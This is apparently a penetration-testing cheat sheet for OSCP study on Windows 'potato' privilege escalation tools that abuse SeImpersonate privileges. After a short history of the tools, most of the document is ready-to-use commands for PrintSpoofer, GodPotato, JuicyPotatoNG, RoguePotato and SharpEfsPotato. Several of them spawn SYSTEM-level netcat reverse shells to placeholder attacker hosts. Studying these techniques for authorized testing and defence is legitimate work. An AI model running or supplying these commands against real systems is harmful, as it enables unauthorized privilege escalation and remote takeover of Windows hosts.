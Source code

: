## Summary
https://github.com/AtvikSecurity/CentralizedPotatoes

The "potato" family of privilege escalation attacks on Windows was started with the introduction of Hot Potato in 2016. These attacks typically exploit authentication mechanisms, credentials, and services with impersonation privileges to elevate from a service account to system level access.

Almost every one of the potatoes target a different component of Windows to take advantage of the 𝑆𝑒𝐼𝑚𝑝𝑒𝑟𝑠𝑜𝑛𝑎𝑡𝑒𝑃𝑟𝑖𝑣𝑖𝑙𝑒𝑔𝑒 or 𝑆𝑒𝐴𝑠𝑠𝑖𝑔𝑛𝑃𝑟𝑖𝑚𝑎𝑟𝑦𝑇𝑜𝑘𝑒𝑛𝑃𝑟𝑖𝑣𝑖𝑙𝑒𝑔𝑒 permissions.

Here are all the popular potatoes in chronological order from oldest (1) to newest (9):
```
Hot Potato - NTLM relay (HTTP->SMB relay) and NBNS spoofing
Rotten Potato - Windows Service Accounts
Juicy Potato - Windows Service Accounts
Lonely Potato - DCOM (Distributed Component Object Model)
Rogue Potato - RPC over custom ports
Sweet Potato - Print Spooler
Generic Potato - HTTP and named pipes
SharpEfsPotato - EfsRpc
God Potato - DCOM (Distributed Component Object Model)
Local Potato - NTLM authentication challenge process
```

## Usage

For OSCP Purposes, we will probably only use PrintSpoofer, GodPotato, or JuicyPotato...

Get .NET version
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

Check `systeminfo` to verify x64 vs x86
	32 bit version (x86) -- https://github.com/ivanitlearning/Juicy-Potato-x86

For older windows boxes, use JuicyPotato
	windows 2008, 7, etc...
	CSLIDs found here -- https://github.com/ohpe/juicy-potato/tree/master/CLSID
		LocalService 'wuauserv' is usually a good choice

Potatoes Usage
```powershell
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#GodPotato -- check .NET version first
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "cmd /c shell.exe"
GodPotato.exe -cmd "cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe $host $port"

# For JuicyPotato, use -c ONLY if default gives you a 10038 error

#JuicyPotatoNG (x64)
JuicyPotatoNG.exe -t * -p "shell.exe" -a
JuicyPotatoNG.exe -l <any_listen_port> -p c:\windows\system32\cmd.exe -a "/c c:\path\to\nc.exe -e cmd.exe <our_ip> <our_listen_port>" -t * (-c {CLSID})

#JuicyPotatox86
JuicyPotatox86.exe -t * -p "shell.exe" -a
JuicyPotatox86.exe -l <any_listen_port> -p c:\windows\system32\cmd.exe -a "/c c:\path\to\nc.exe -e cmd.exe <our_ip> <our_listen_port>" -t * (-c {CLSID})
```

Potential Future Usage
```powershell
#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```